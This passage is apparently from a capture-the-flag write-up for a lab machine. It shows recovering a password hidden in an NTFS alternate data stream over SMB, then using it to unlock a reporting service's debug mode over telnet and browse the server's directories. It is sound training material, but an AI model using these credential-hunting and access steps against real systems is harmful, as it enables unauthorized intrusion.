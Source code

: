 change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> 
{% endhighlight %}

It has another stream of data called Password. Let's download it:

{% highlight bash %}
smb: get "Debug Mode Password.txt":password
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:password of size 15 as Debug Mode Password.txt:password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
{% endhighlight %}

Cat it we see: "WBQ201953D8w"

Dope. Another password. Let's go back to HQK.

{% highlight bash %}
$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>debug xRxRxPANCAK3SxRxRx

Invalid password entered
>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>session

--- Session Information ---

Session ID: 26ecec2e-c357-4860-8f29-d8045141cb6a
Debug: True
Started At: 6/2/2020 4:19:47 AM
Server Endpoint: 10.10.10.178:4386
Client Endpoint: 10.10.16.87:33366
Current Query Directory: C:\Program Files\HQK\ALL QUERIES

>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>cd LDAP

Unrecognised command
>setdir LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

